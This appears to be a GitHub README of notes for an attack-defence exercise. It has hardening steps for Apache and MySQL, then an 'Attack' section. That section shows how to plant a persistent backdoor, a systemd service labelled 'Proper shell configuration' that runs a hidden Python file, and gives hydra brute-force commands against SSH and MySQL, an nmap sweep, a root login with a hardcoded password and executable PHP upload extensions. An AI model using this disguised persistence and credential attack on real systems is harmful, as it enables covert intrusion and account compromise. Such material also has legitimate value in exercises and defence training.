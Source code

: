 # Wilbur

## Change password of system users
`echo 'admin:jnjhuuinbuzeuzbcbhbhscel84786873zuhsdf' | chpasswd --crypt-method SHA512`

## Change apache
```
DocumentRoot "/var/www/deathtohumanity"

# Disable all accesses in /dir to prevent uploaded php files to be accessed
<Directory /var/www/deathtohumanity/dir>
        Require all denied
</Directory>
```

Then restart apache2 service `sudo systemctl restart apache2 `

## Disable mysql public appearance

### Update users
```
# Change passwords:
ALTER USER 'userName'@'localhost' IDENTIFIED BY 'New-Password-Here';
FLUSH PRIVILEGES;
# Drop users:
DROP USER 'jeffrey'@'localhost';
```


### Localhost only
Put following lines in `/etc/mysql/my.cnf`
```bash
[mysqld]
bind-address = 127.0.0.1
mysqlx_bind_address = 127.0.0.1

```

Then restart mysql service `sudo systemctl restart mysql `

# Attack

## Backdoor

1. Login as root
2. Place backdoor in `/etc/shell.conf`
3. Add systemctl service
    - create `/etc/systemd/system/shell.service`
        ```bash
        [Unit]
        Description=Proper shell configuration.

        [Service]
        Type=simple
        Restart=always
        RestartSec=3
        ExecStart=/usr/bin/python3 /etc/shell.conf
        Environment=PYTHONUNBUFFERED=1

        [Install]
        WantedBy=default.target
        ```
    - `systemctl enable shell`
    - `systemctl start shell`

Targeted:
- `10.6.18.85:33333`


## Find IPs with open MySQL ports
`nmap 10.6.18.0/24 -p3306 --open -oG - | awk '/Up$/{print $2}'`

## SSH
`hydra -C users.txt 10.6.18.185 ssh`

## MySQL
`hydra -C users.txt 10.6.18.185 mysql`

Login via mysqlx:
```python
session = mysqlx.get_session({
    'host': '10.6.18.85',
    'port': 33060,
    'user': 'root',
    'password': '_theGate&Thekey'
})
```

## PHP upload
By default, the following files are interpreted as php: `.+\.ph(ar|p|tml)$`
- php
- phtml
- phar




